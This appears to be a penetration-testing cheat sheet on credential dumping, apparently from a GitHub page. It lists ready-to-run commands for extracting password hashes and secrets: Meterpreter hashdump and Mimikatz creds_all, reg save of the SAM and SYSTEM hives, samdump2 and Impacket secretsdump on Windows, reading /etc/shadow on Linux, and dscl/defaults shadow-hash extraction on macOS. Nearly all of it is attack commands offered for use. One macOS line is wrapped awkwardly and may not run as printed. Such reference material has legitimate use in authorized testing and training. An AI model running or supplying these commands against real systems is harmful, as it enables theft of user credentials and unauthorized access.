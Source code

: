 #credential-dumping 
# Windows: 

## Meterpreter HashDump

- run post/windows/gather/hashdump

## Meterpreter Mimikatz (Post Exploitation must be executed from SYSTEM privileges)

- load mimikatz
- creds_all

DUMP LSA SECRETS
- lsadump.py sys_backup.hiv sec_backup.hiv

DUMP LOCAL PASSWORD HASHES

- pwdump.py sys_backup.hiv sec_backup.hiv

## reg.exe 

- reg save HKLM\sam sam
- reg save HKLM\system system

## samdump2

- samdump2 SYSTEM SAM > hashes.db

## Impacket Tools: 

- secretsdump.py -ntds ~/Extract/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes

If you have the NTDS.dit file and the SYSTEM hive: 

- secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# Linux

Requires Root Privileges

- cat /etc/shadow

- cp /etc/passwd and shadow
- unshadow passwd shadow 

#  OSX

10.5-10.7

- dscl localhost -read /Search/Users/<username>|grep GeneratedUID|cut -c15-cat
/var/db/shadow/hash/<GUID> | cut -c169-216 > osx_hash.txt

10.8-10.12

- sudo defaults read /var/db/dslocal/nodes/Default/users/<username>.plist ShadowHashData|tr -dc ‘
0-9a-f’|xxd -p -r|plutil -convert xml1 - -o -

# Other Resources: 

- Lsassy: https://github.com/Hackndo/lsassy